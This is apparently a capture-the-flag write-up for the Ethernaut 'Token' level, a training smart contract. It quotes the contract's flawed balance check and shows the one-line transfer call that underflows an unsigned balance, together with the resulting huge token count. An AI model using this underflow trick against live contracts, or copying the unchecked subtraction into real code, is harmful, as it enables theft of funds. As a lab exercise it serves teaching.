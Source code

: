 # Token

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

  Things that might help:

What is an odometer?

Take a look at the condition for transfer:
```javascript
require(balances[msg.sender] - _value >= 0);
```

Current total token of attacker is 20, it mean if we pass the value `21`.It will cause the underflow attack and return large amount of tokens because uint can't store minus value:
```javascript
contract.transfer(player, 21);
```

Check the balance of player:
```javascript
await contract.balanceOf(player).then((x) => x.toNumber());
> 1.157920892373162e77;
```